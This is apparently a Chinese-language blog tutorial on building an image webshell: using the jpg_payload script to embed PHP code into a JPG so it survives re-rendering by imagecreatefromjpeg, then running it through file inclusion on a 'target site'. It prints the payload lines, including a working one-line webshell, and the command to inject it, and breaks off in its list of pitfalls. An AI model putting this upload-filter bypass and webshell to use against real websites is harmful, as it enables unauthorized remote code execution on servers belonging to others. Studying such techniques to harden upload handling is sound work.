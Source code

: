 项目地址：Github - lackFan/jpg_payload  
  
准备一个 jpg 图片：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDUdadfy81z2icbDkVCFT7Q8BXH5yjiatl7QhfprGrwpyFN6DKK6qpCOmQ/640?wx_fmt=jpeg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
然后上传到目标网站上面渲染一下再导出：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0JJXjA8siccz3K8s9759nF0yjyoSgBpyD7libibASLTYXD2rKW3Z9iaicKvxo95JduV1XvIr99YCxlD1X4H7nQJOxSw/640?wx_fmt=jpeg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
接着使用脚本来插入 payload，如果想要修改默认 payload 的话，自行修改脚本中的下部分代码：  
  
PHP  
```
$miniPayload = '<?php phpinfo();?>';
```  
  
然后运行脚本插入 payload：  
```
$ php jpg_payload.php 122728342.jpg
Success!
```  
  
生成的新图片为：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDgKTqQQgfky5oagiaqAy3jiaaYNOOtQia1b0ut0BRbG46Cl3OuVAmXygNA/640?wx_fmt=jpeg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
然后上传到目标网站上面渲染一下再导出：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDKAh17wtaFdhI0CMUicp0UXr9WPE9SnoCMZlibu72jxcibdj09e0sKyiahg/640?wx_fmt=jpeg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
那么来查看一下最终这个 JPG 里面是否带有 payload 信息：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDnWic01KhGQhGbGSFiaHlxdZ7IrYFDFpwwMsIXOrBdftkROorzNjic4Q6A/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
无疑写 phpinfo () 是很容易成功的，但是 phpinfo () 并无实质性危害，我们需要插入真正的 webshell 才可以：  
```
$miniPayload = '<?php $_GET[0]($_POST[1]);?>';
```  
> 这里非常玄学，在国光经历了不知道多少次失败后，才成功将上面的 payload 完整插入  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0JJXjA8siccz3K8s9759nF0yjyoSgBpyD54a0QbjzmeXgc6Bt1dgbIRFuPyQeTV2AE2S2UbMJ5AhxJ7N2DcytvQ/640?wx_fmt=jpeg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
这个图马被 imagecreatefromjpeg 渲染后如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDN9o6BCONaicGTJmicL6Er1gsyFWiczibaqBPjBibDdVauVO3MpiaQfSibsuFA/640?wx_fmt=jpeg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
查看一下 payload 是否存在：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDO1ibLVsyYn3rGlKaQRY4wSk2NLOFkicjbI8JHfia8RicrdqEibeILT7HlvA/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
完美，尝试直接文件包含来执行攻击语句试试看：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDHuIchpPnwVfyic34jaJILUibb6VA1ibiaIia2QN5yHvNUxUX7NbIj2iapiaBA/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
JPG 坑点总结  
1. 需要被 imagecreatefromjpeg 渲染或再用工具  
  